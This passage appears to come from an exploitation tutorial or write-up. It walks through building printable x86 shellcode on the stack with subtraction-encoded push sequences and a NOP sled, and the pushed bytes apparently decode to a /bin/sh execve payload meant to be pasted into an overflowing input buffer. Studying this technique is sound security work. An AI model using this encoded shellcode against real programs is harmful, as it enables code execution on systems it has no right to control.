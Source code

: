     sub eax, 0x39393333  ; Assembles into -3399
    sub eax, 0x72727550  ; Assembles into -Purr
    sub eax, 0x54545421  ; Assembles into -!TTT

    push eax             ; Assembles into P
    pop esp              ; Assembles into \
    ```
    *Note: this whole sequence translates to ```TX-3399-Purr-!TTT-P\```*

2. From here we have to actually build the shellcode. Since we are doing this on the stack we have to follow the FILO convention of the stack and build this backwards. so the first thing pushed to the stack is the last 4 bytes of shellcode. THis is done 4 bytes at a time until the entirety of the shellcode is on the stack. Each 4 bytes is pushed to the stand and then has subtraction with printable characters done on it to create the next value to be pushed to the stack. The resulting code looks like this
    ```
    and eax,0x454e4f4a
    and eax,0x3a313035      ; Zero out EAX.

    sub eax,0x346d6d25      ; Subtract printable values 
    sub eax,0x256d6d25      ;   to make EAX = 0x80cde189.
    sub eax,0x2557442d      ;   (last 4 bytes from shellcode.bin)
    push eax                ; Push these bytes to stack at ESP.
    sub eax,0x59316659      ; Subtract more printable values
    sub eax,0x59667766      ;  to make EAX = 0x53e28951.
    sub eax,0x7a537a79      ;  (next 4 bytes of shellcode from the end)

    push eax
    sub eax,0x25696969
    sub eax,0x25786b5a
    sub eax,0x25774625
    push eax                ; EAX = 0xe3896e69
    sub eax,0x366e5858
    sub eax,0x25773939
    sub eax,0x25747470
    push eax                ; EAX = 0x622f6868
    ---This keeps repeating for the whole shellcode---
    ```
    *Note: *
3. The rest of the space between the shellcode and EIP is padded with NOP instructions which are pushed to the stack as well.
    ```
    sub eax,0x41704170
    sub eax,0x2d772d4e
    sub eax,0x32483242
    push eax                ; EAX = 0x90909090
    push eax
    push eax                ; Build a NOP sled.
    ---Do this a bunch---
    ```
Your final code should disassemble into entirely printable characters that you can paste in the input buffer.
<details><summary>Printable Shell Code</summary></details>
